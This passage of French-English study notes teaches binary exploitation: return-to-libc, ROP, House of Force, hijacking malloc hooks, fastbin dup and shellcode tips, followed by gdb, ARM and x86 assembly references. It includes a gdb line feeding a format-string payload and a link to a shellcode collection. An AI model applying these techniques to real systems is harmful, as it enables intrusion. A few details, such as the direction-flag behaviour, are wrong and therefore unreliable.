    * **Au lieu de modifier l’adresse de retour pour qu’elle pointe sur un shellcode placé dans la pile, l’idée est de la modifier pour qu’elle pointe directement sur la fonction de la bibliothèque libc system(). Le but est d’appeler la fonction system(/bin/sh) pour obtenir un shell.**

                **Cette attaque peut-être stoppée par l’ASLR.**


        

<p id="gdcalert256" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image256.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert257">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Pour trouver l’adresse de certaines fonctions, on peut utiliser cette commande sur gdb:**

    

<p id="gdcalert257" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image257.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert258">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Une protection contre cette exploitation ( Return-to-libc ) est l’ajout d’un byte 0 dans les adresses libc, empêchant notre exploit de faire passer le payload entier au programme vulnérable.**

                **Cette protection est contournable.**

* ROP - Return Oriented Programming
* **Le ROP consiste à utiliser les instructions machines présentes dans le segment .text (pour rappel, le segment .text contient le code ou plutôt les instructions machines de notre programme). **

                **Ce segment… n’est pas randomisé par l’ASLR.**


                **En gros, on va prendre divers petits bouts de code présents dans la section .text qui, exécutés dans le bon ordre et avec les bons arguments, vont nous permettre d’obtenir ce que nous voulons, à savoir, dans le cas présent, un shell. **


<p id="gdcalert258" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image258.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert259">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


                **Ainsi, lorsque les instructions que nous voulons effectuer ont été exécutées, l’instruction RET permet de sauter à l’instruction dont l’adresse est sur le dessus de la pile, pile que nous contrôlons grâce au buffer overflow.**


                **exemple :**


<p id="gdcalert259" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image259.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert260">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Shellcode en masse : [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)**


## Double free :


<p id="gdcalert260" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image260.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert261">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Malloc() utilise au minimum 24 bytes comme donnée utilisateur sur chaque chunk de la Heap lors d’une allocation ( même pour un malloc de taille 0 ) sans compter les métadonnées des chunks.**
* **La taille des métadonnées d’un chunk est de 8 bytes.**
* **la heap en x64 augmente de 16 en 16 bytes pour les données utilisateurs.**
* **Each chunk has a size field indicating the size of the chunk.**


<p id="gdcalert261" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image261.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert262">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert262" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image262.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert263">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**example : **


<p id="gdcalert263" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image263.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert264">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Ici, sur chaque chunk de couleurs différentes, on a dans les méta données. le nombre 21 signifie :**


* **1 => le flag n°1. Les 3 derniers bit représentent un flag activé ( see below ). ici, le prev_inuse flag qui est activé.**
* **0x20: taille du chunk ( 32 bytes ici ) **
* **Since all chunks are multiples of 8 bytes, the 3 LSBs of the chunk size can be used for flags. These three flags are defined as follows:**
* **A (0x04)**

        **Allocated Arena - the main arena uses the application's heap. Other arenas use mmap'd heaps. To map a chunk to a heap, you need to know which case applies. If this bit is 0, the chunk comes from the main arena and the main heap. If this bit is 1, the chunk comes from mmap'd memory and the location of the heap can be computed from the chunk's address.**

* **M (0x02)**

        **MMap'd chunk - this chunk was allocated with a single call to mmap and is not part of a heap at all.**

* **P (0x01)**

        **Previous chunk is in use - if set, the previous chunk is still being used by the application, and thus the prev_size field is invalid. Note - some chunks, such as those in fastbins (see below) will have this bit set despite being free'd by the application. This bit really means that the previous chunk should not be considered a candidate for coalescing - it's "in use" by either the application or some other optimization layered atop malloc's original code.**


        **Le premier chunk a toujours ce flag activé.**

* **De base, sur la Heap, il n’y a qu’un seul principal chunk qu’on appelle “Top Chunk”. Au fur et à mesure qu’on alloue de la mémoire, ce chunk baisse en taille.**

    **On peut récupérer, comme information sur ce chunk, combien il reste de place dans la Heap.**


<p id="gdcalert264" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image264.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert265">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert265" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image265.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert266">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* The House of Force attack

Publiée en 2005, **Cette attaque se concentre sur la taille affichée en mémoire du top chunk. Avec un possible Heap Overflow, on peut écraser cette valeur.**

** **

**On peut alors tromper certaines fonctions comme malloc() qui utilise cette valeur pour allouer de la mémoire correctement.**

**Cette attaque se base aussi sur le fait que l’on utilise une ancienne version de la biblio GLIBC ( &lt; 2.29 ), qui laquelle il n'y a aucun check sur la taille du Top chunk.**

**	**

**La présence d’une feature que l’on nomme "tcache" ( présent sur des anciennes versions de GLIBC ) rend plus facile des exploit sur malloc().**

**Etape :**


* **Heap overflow pour écraser le size field du top chunk. Donc maintenant la heap est très grande.**
* **Ecrire ou on veut dans les sections du binaire. ( request enough memory to bridge the gap between the top chunk and target data and then overwrite the target with other allocation).**

**	**

**	On peut même écrire à des adresses plus basses car c’est un système**

**“modulo max_size_or_value”. **

**GLIBC version 2.30 introduced a maximum allocation size check, which limits the size of the gap the House of Force can bridge.**


## Code execution techniques :


* **For code execution, you can for example overwrite the plt section to overwrite the address of printf() in instance if it’s possible if RELRO isn’t activated ).**
* **You can overwrite the .fini_array slots, if you can lead the program into exiting because the process of exiting use the slots of this array ( if RELRO isn’t activated ). **
* **You can overwrite __exit_funcs or tls_dtor_list qui se comportent pareil que .fini_array ( qui se trouvent dans une autre PLT de GLIBC ) mais c’est largement plus dur.**
* **You can use mallocs hooks : Each of malloc's core functions, such as malloc() and free(), has an associated hook which takes the form of a writable function pointer in GLIBC's data section.**

    **When the value of the malloc hook is null, it's ignored and calls to the malloc() function  work as normal. When it isn't null however, calls to malloc() are redirected to the address that it holds.**


    **You can find the address of the malloc hook with some general variables.**


    **If you can replace the malloc hook by system(“/bin/sh”) for example, you can put the argument of the system function in the size malloc argument as an address pointing to the correct strings in the memory ( here “/bin/sh” ). That will trigger the hijacked hook with the right argument. **

* The Fastbin dups ( duplication ) attack

**	Definitions :**


* **fastbins : The collection of chunks that have been freed.**
* **Arenas : Arenas are structures in which malloc keeps all of its non-inline metadata, consisting primarily of the heads of each of those free lists I mentioned.**

        **A single arena can administrate multiple heaps.**


        **A new arena is created along with an initial heap every time a thread uses malloc for the first time, up to a limit based on the number of available cores.**


        **The main thread gets a special arena called the main arena, which resides in the libc data section.**


<p id="gdcalert266" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image266.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert267">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Fonctionnement des fastbins : **


<p id="gdcalert267" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image267.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert268">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* l’attaque :


<p id="gdcalert268" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image268.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert269">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


## 
    MISC


* SOURCE FORTIFY : remplacement de fonctions dangereuses par sa version sécurisée: strcpy=>strncpy.
* NX : la pile et le tas d'un programme NON exécutables..
* 0x90 : instruction NOP.
* Un ShellCode peut être stocké dans une variable d’environnement à la place d’être écrit directement dans un buffer car ca prendra moin de place dans le “payload”. 
* Pour les programmeurs, des overflows peuvent aussi apparaître dans des boucles for ou while s’il y a des erreurs avec les indices ou dans la condition de la boucle par exemple.

            Ces overflows peuvent être très difficiles à détecter. Ces bugs sont appelés off-by-one bugs car ils peuvent avoir lieu seulement sur un ou quelques bytes.


            Il faut noter que ces bugs off-by-one sur certains programmes compilés avec gcc sont peut-être inexploitables. Les versions 3.x de gcc ajoutent un padding entre les variables locales et


            frame pointer ce qui rend ce dernier inaccessible à un off-by-one bug.

* Dans le processus d’écriture d’un shellcode :
    * Il y a le fait de réduire leur taille au minimum dans la mémoire afin de l’utiliser dans des petits buffers.
* Enlever les bytes NULL car ils agissent comme des terminateurs pour les strings.
* Le shellcode doit être PIC ( position independent code ), c-à-dire il ne doit contenir aucune adresse absolue car l’adresse où le shellcode est exécuté est généralement pas connue.

    

<p id="gdcalert269" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image269.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert270">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


12.  Gdb command
* **disass [FUNCTION] : produce the disassembly output of the entire function.**
* **set disassembly-flavor [ att - intel ] : Controls the disassembly style used by the [disassemble](https://visualgdb.com/gdbreference/commands/disassemble) and [x](https://visualgdb.com/gdbreference/commands/x) commands.**

            **att : AT&T disassembly style**


            **intell : Intel disassembly style**

* **show disassembly-flavor : print the disassembly style used.**
* **layout split : Display the source and assembly window.**
* **i r | info registers = prints the main registers.**
* **x/20xw $esp : Tip to print the stack .**
    * **w = 16 bits**
    * **x = Hex**

**	**


* **Clear : remove breakpoints.**
* **p [ register ] : print the content of the register.**
* **reverse-stepi : revenir un pas en arrière.**
* **call [function name] : call a function inside the binary.**
* **set {char}0x080486fc=0x74 = change la valeur a l’adresse 0x080486fc.**
* **print/x [REGISTER] = Print the value of the register.**
* **print (char*) 0x555555556004**
* **define hook-stop : makes the associated commands ( to the hook ) execute every time execution stops in your program: before breakpoint commands are run, displays are printed, or the stack frame is printed.**

                **Example of a hook:**


                **	**

<p id="gdcalert270" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image270.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert271">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **bt = Montre l’empilement des frames sur la piles.**
* **i f = Donne des informations sur la frame actuelle.**
* **i f n = Donne des informations sur la frame numéro n.**
* **find Start_address,end_address,pattern = trouve le pattern entre les 2 adresses de début et fin.**
* **run &lt; &lt;(python -c "print '%121x' + '\x86\xfd\xff\xbf'") : Formater un input sur GDB avec python.**
* **info files : Display what different segments are there in the core file.**
* **x/30s *((char **)environ) : Afficher les adresses des variables d’environnements.**
* **To switch a flag on the statue register (here GDB syntax):**
    * ** 0 -> 1 OR: set ($eflags) |= 0x[BIT_VALUE_ON_STATUE_REGISTER] **

                ** **

    * ** 1 -> 0 XOR: set ($eflags) ^= 0x[BIT_VALUE_ON_STATUE_REGISTER] **
* **Technique pour trouver l’offset jusqu'à EIP avec gdb-peda :**

    

<p id="gdcalert271" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image271.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert272">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert272" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image272.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert273">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


        

<p id="gdcalert273" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image273.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert274">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **find [BEGIN_ADD], [AND_ADD], [VALUE] : search for value between address**

**	Example : find 0x555555554000 to 0x555555558fff, “Hello, world!”**


* Technique pour trouver le main dans un binaire stripped :
    * 1) info file pour voir ou se trouve .txt
    * 2) disass [DEBUT .TXT], [FIN .TXT]
* 1) break _libc_start_main
* 2) run and check the first argument of this function. this is where the main start
* 
13. ARM
* Differents instructions


<p id="gdcalert274" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image274.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert275">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<table>
  <tr>
   <td><strong>cpy r0, r2</strong>
   </td>
   <td><strong>mov r0, r2</strong>
   </td>
  </tr>
  <tr>
   <td><strong>bcs [ADDRESS]</strong>
   </td>
   <td><strong>Jump avec CS condition</strong>
   </td>
  </tr>
</table>


<table>
  <tr>
   <td>Move R2 ,#4
   </td>
   <td>R2 = #4
   </td>
  </tr>
  <tr>
   <td>B ( Branch )
   </td>
   <td>Simple Jump ( up to 32 MB )
   </td>
  </tr>
  <tr>
   <td>BL ( Branch and Link )
   </td>
   <td>Preserves the addresses of the instruction after the branch ( in LR )
   </td>
  </tr>
  <tr>
   <td>BX ( Branch and Exchange )
   </td>
   <td>Uses the content of a general-purpose register to decide where to jump and  exchange instruction set.
   </td>
  </tr>
  <tr>
   <td>ldr r0, addr_var1
   </td>
   <td>Load to R0 the value stored in addr_var1.
   </td>
  </tr>
  <tr>
   <td>str r2, [r1, #2]
   </td>
   <td>Store the value found in r2 to the memory address found in r1+2. R1 stay unmodified
   </td>
  </tr>
  <tr>
   <td>str r2, [r1, #2]!
   </td>
   <td>Store the value found in r2 to the memory address found in r1+2. R1 is modified : r1 = r1 + 2
   </td>
  </tr>
  <tr>
   <td>ldr r3, [r1], #4
   </td>
   <td>load the value found in memory address found in r1 to r3. R1 is modified : r1 = r1 + 4
   </td>
  </tr>
  <tr>
   <td>str r2, [r1,+ r2, LSL#2]
   </td>
   <td>Store the value found in r2 to the memory address found in r1+( r2 left-shifted by 2 ). R1 stay unmodified
   </td>
  </tr>
  <tr>
   <td>ldr r0, =jump 
   </td>
   <td>load the address of the function label jump into r0
   </td>
  </tr>
  <tr>
   <td>ldr r1, =0x68DB00AD
   </td>
   <td>load the value 0x68DB00AD into r1
   </td>
  </tr>
  <tr>
   <td>adr r0, words+12 
   </td>
   <td>address of words[3] -> r0
   </td>
  </tr>
  <tr>
   <td>ldm r0, {r4, r5}
   </td>
   <td>[r4]= [r0]  
<p>
[r5]= [r0 + 4]
   </td>
  </tr>
  <tr>
   <td>stm r1, {r4, r5}
   </td>
   <td>[r1] = [r4] , 
<p>
[r1 + 4] = [r5]
   </td>
  </tr>
  <tr>
   <td>ldmia r0, {r4-r6}
   </td>
   <td>[r4] = [r0]
<p>
[r5] = [r0 + 4]
<p>
[r6] = [r0 + 8]
   </td>
  </tr>
  <tr>
   <td>stmia r0, {r4-r6}
   </td>
   <td>[r0] = [r4]
<p>
[r0 + 4] = [r5]
<p>
[r0 + 8] = [r6]
   </td>
  </tr>
  <tr>
   <td>ldmib r0, {r4-r6}
   </td>
   <td>[r4] = [r0 + 4]
<p>
[r5] = [r0 + 8]
<p>
[r6] = [r0 + 12]
   </td>
  </tr>
  <tr>
   <td>stmib r0, {r4-r6}
   </td>
   <td>[r0 + 4] = [r4]
<p>
[r0 + 8] = [r5]
<p>
[r0 + 12] = [r6]
   </td>
  </tr>
  <tr>
   <td>ldmda r0, {r4-r6}
   </td>
   <td>[r6] = [r0]
<p>
[r5] = [r0 - 4]
<p>
[r4] = [r0 - 8]
   </td>
  </tr>
  <tr>
   <td>ldmdb r0, {r4-r6}
   </td>
   <td>[r6] = [r0 - 4]
<p>
[r5] = [r0 - 8]
<p>
[r4] = [r0 - 12]
   </td>
  </tr>
  <tr>
   <td>stmda r0, {r4-r6}
   </td>
   <td>[r0] = [r6]
<p>
[r0 - 4] = [r5]
<p>
[r0 - 8] = [r4]
   </td>
  </tr>
  <tr>
   <td>stmdb r0, {r4-r6}
   </td>
   <td>[r0 - 4] = [r6]
<p>
[r0 - 8] = [r5]
<p>
[r0 - 12] = [r4]
   </td>
  </tr>
</table>


* **R13 : Stack pointer ( like ESP ).**
* **R14 ( LR ) : Link register ( function like EIP ). **
* **R15 : PC register.**
* **R11 : Pointer to the current frame ( FP, like EBP ).**
* **R12 : Can be corrupted with temporary data in a called subroutine.**
* **R0 -> R3 : Hold function arguments.**


## 						CPSR


* **CPSR : register for operating processor status. It contains 2 bits that encode whether ARM inst., Thumb inst., or Jazelle opcodes are being executed.**


<p id="gdcalert275" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image275.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert276">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert276" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image276.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert277">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert277" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image277.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert278">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**		**


## 
        condition codes :


        

<p id="gdcalert278" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image278.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert279">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


##                       MISC


* ARM processors have two main states they can operate in (let’s not count Jazelle here), ARM and Thumb.
* Differences between ARM & Thumb :
    * Instructions in ARM : 32-bit and Thumb : 16-bit (can be 32).
    * All instructions in ARM state support conditional execution
    * 32-bit Thumb instructions have a .w suffix
* ARM can only load a 8-bit value in one go.

    A full immediate value v is given by the formula: v = n ror 2*r


    because of the restriction in immediate value : 12 bits for this field


    In ARM instruction.

* In x86, we use PUSH and POP to load and store from and onto the Stack. In ARM, we can use these two instructions ( Pop/Push and Load/Store ).
14. Assembleur x86

    

<p id="gdcalert279" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image279.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert280">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **In addition to the GPRs, EIP, and EFLAGS, there are also registers that control important low-level system mechanisms such as virtual memory, interrupts, and debugging. **

            **For example: **

* **CR0 controls whether paging is on or off.**
* **CR2 contains the linear address that caused a page fault.**
* **CR3 is the base address of a paging data structure.**

                ** **

* **CR4 controls the hardware virtualization settings.**

                ** **

* **DR0–DR7 are used to set memory breakpoints.**
* **When the operating system transitions from ring 3 to ring 0, it saves state information on the stack.**
* **EFLAGS register : like CPSR in ARM.**
* **Little and big endian :**

            

<p id="gdcalert280" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image280.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert281">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Instruction CALL [address] = PUSH “EIP” + Jump [address].**
* **Instruction LEAVE :**

            **EN résumé : MOVE ESP , EBP **


            **		POP EBP**

* **Instruction PUSH [ REGISTRE ]: Pousse l’argument passé à PUSH au sommet de la pile et La valeur contenue dans ESP est mise sur le dessus de la pile.**
* **Instruction POP [ REGISTRE ] : Retire l’élément au sommet de la pile et l’assigne à la valeur passée en argument. Le registre ESP qui pointe sur le sommet pointe à présent sur la valeur précédente sur la pile.**
* **Appel d’une fonction en assembleur :**

**				en résumé : push [ ], **


                    **       push [ ], **


                        **... 	**

**                                             call [ ]**


* **Prologue d’une fonction en assembleur :**
    * **en résumé : push %ebp, **

                **      	       mov  %esp, %ebp**


                **               sub [$0x.. ], %esp**

* **Epilogue d’une fonction en assembleur :**
    * **en résumé : leave ( ESP = EBP, remettre l’ancien EBP )**

                **      	       ret ( POP eip )**


**                                 Exemples d’instructions en x86**


<table>
  <tr>
   <td><strong>ROR</strong>
   </td>
   <td><strong>Rotation vers la droite</strong>
   </td>
  </tr>
  <tr>
   <td><strong>ROL</strong>
   </td>
   <td><strong>Rotation vers la gauche</strong>
   </td>
  </tr>
  <tr>
   <td><strong>INT X</strong>
   </td>
   <td><strong>Generate the interruption X ( “system_call” in linux )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>XOR EBX,EBX</strong>
   </td>
   <td><strong>Restore the EAX register</strong>
   </td>
  </tr>
  <tr>
   <td><strong>movl 0x80848c48(%ebx,%ecx,4), %eax  ( Syntaxe AT&T )</strong>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td><strong>movl (%esi), %eax ( Syntaxe AT&T )</strong>
   </td>
   <td><strong>EAX = *ESI  ( pointeur )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>movb %bl, (%edi) ( Syntaxe AT&T )</strong>
   </td>
   <td><strong>*EDI = bl ( sur seulement un octet car “movb” )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>int $0x80 ( Syntaxe AT&T )</strong>
   </td>
   <td><strong>interruption du programme ( return )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>movl entier, %eax ( Syntaxe AT&T )</strong>
   </td>
   <td><strong>eax = entier ( qui est une constante définie dans <em>data</em> )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>movb tableau(%esi), %al ( Syntaxe AT&T )</strong>
   </td>
   <td><strong>AL = *tableau + ESI</strong>
   </td>
  </tr>
  <tr>
   <td><strong>shl eax, 8</strong>
   </td>
   <td><strong>Shift left 8-bits</strong>
   </td>
  </tr>
  <tr>
   <td><strong>shr eax, 8</strong>
   </td>
   <td><strong>Shift right 8-bits</strong>
   </td>
  </tr>
  <tr>
   <td><strong>movsd</strong>
   </td>
   <td><strong>Special <em>mov </em>instruction : implicitly use EDI/ESI as the destination/source address, respectively.</strong>
<p>
<strong>Usually Use to copy/paste string.</strong>
<p>
<strong>In addition, they also automatically update the source/destination address depending on the direction flag (DF) in EFLAGS.</strong>
<p>
<strong>DF = 0 : the addresses are decremented</strong>
<p>
<strong>DF = 1 : the addresses are incremented</strong>
<p>
<strong>In some cases, they are accompanied by the REP prefix (<em>rep movsd)</em>, which repeats an instruction up to ECX times. </strong>
   </td>
  </tr>
  <tr>
   <td><strong>lea edi, [ebx+170h]</strong>
   </td>
   <td><strong>edi = ebx+0x170 ( direct value of ebx )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>mov esi, offset _RamsdiskBoot</strong>
   </td>
   <td><strong>ESI = pointer to RamdiskBootDiskGuid</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SCAS ( pour comparaison )</strong>
   </td>
   <td><strong>SCAS implicitly compares AL/AX/EAX</strong>
<p>
<strong>with data starting at the memory address EDI.</strong>
<p>
<strong>EDI is automatically incremented/</strong>
<p>
<strong>decremented depending on the DF bit in EFLAGS.</strong>
<p>
<strong>SCAS is commonly used along with the REP prefix to find a byte, word, or double-word in </strong>
<p>
<strong>a buffer.</strong>
<p>
<strong>This instructions can operate at 1-, 2-, or 4-byte granularity ( b,w or d suffix ).</strong>
<p>
<strong>Example : </strong>
<p>
<strong>“repne scasb”</strong>
<ul>

<li><strong>Repeatedly scan forward one byte at a time as long as AL ( one byte ) does not match the byte at EDI.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td><strong>STOS ( pour écrire )</strong>
   </td>
   <td><strong>STOS is the same as SCAS except that it writes the value AL/AX/EAX to EDI with ECX used as counter with the loop instruction “<em>rep</em>”.</strong>
<p>
<strong>It is commonly used to initialize a buffer to a constant value.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>LODS</strong>
   </td>
   <td><strong>It reads a 1-, 2-, or 4-byte </strong>
<p>
<strong>value from ESI and stores it in AL, AX, or EAX.</strong>
   </td>
  </tr>
</table>


            **			**


* **En AT&T, Les constantes en base**

            **16 commençant par 0x et les constantes en binaire par 0b.**

* **Le système d’exploitation met à la disposition du**

            **programmeur un ensemble de routines ( exemple : _int $0x80 _qui provoque un _return_ ) pour que chacun ne soit pas obligé de les réécrire à chaque fois. La valeur placée dans EAX détermine le choix de la routine utilisée.**

* **le code retour d’un programme x86 est souvent la valeur**

            **placée dans EBX.**


            **	        Utilisation des registres sur un Syscall**


            

<p id="gdcalert281" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image281.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert282">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Les adresses des routines correspondant à toutes les interruptions sont stockées dans une zone de la**

            **mémoire dite table des vecteurs d'interruption.**


            **Chaque type d’interruption est associé à une case de cette table qui contient simplement l’adresse de la routine à exécuter.**

* **A x86 processor can operate in two modes: real and protected. **

            **Real mode is the processor state when it is first powered on and only supports a 16-bit instruction set.**


            **Protected mode is the processor state supporting virtual memory, paging, and other features; it is the state in which modern operating systems execute.**

* **x86 supports the concept of privilege separation through an abstraction called _ring level_. **

            **The processor supports four ring levels, numbered from 0 to 3 (Rings 1 and 2 are not commonly used).**


            **Ring 0 is the highest privilege level and can modify all system settings. Ring 3 is the lowest privileged level and can only read/modify a subset of system settings.**


            **The ring level is encoded in the CS register.**

* **Opération Multiplication :**
    * **Le produit de 2 nombres de 32 bits occupe 64 bits. Dans tous les cas, les 32 bits de poids fort seront placées dans EDX.**
* **Pour la multiplication non signée, la syntaxe est:**

                **_mul &lt;opérande>._**


                **The register is multiplied with AL, AX, or EAX and the result is stored in AX, DX:AX, or EDX:EAX, depending on the operand width :**


                **Example :**


                **mul ecx ; EDX:EAX = EAX * ECX**


                **mul cl  ; AX = AL * CL**


                **mul dx ; DX:AX = AX * DX**

* **Pour la multiplication signée, il y trois syntaxes :**

            

<p id="gdcalert282" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image282.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert283">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


            **Taille des opérande en AT&T :**


<p id="gdcalert283" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image283.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert284">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**				    **

**Conditional Jump in x86**

<p id="gdcalert284" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image284.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert285">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert285" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image285.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert286">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


        **		**


                **Quelques Bits du Registre d’état et instructions**


<table>
  <tr>
   <td><strong>ZF (zero flag) </strong>
   </td>
   <td><strong>Positionnée par une opération arithmétique </strong>
<p>
<strong>( égal à zéro ) ou une comparaison en cas d’égalité (mais pas par un déplacement).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>CF (carry flag)</strong>
   </td>
   <td><strong>Positionné par une opération arithmétique lorsque le résultat dépasse la taille</strong>
<p>
<strong>de registre concerné.</strong>
<p>
<strong>exemple : </strong>
<p>
<strong>si on ajoute 2 registres de 8 bits, contenant 0xFF et 1, le résultat (en théorie 0x100)</strong>
<p>
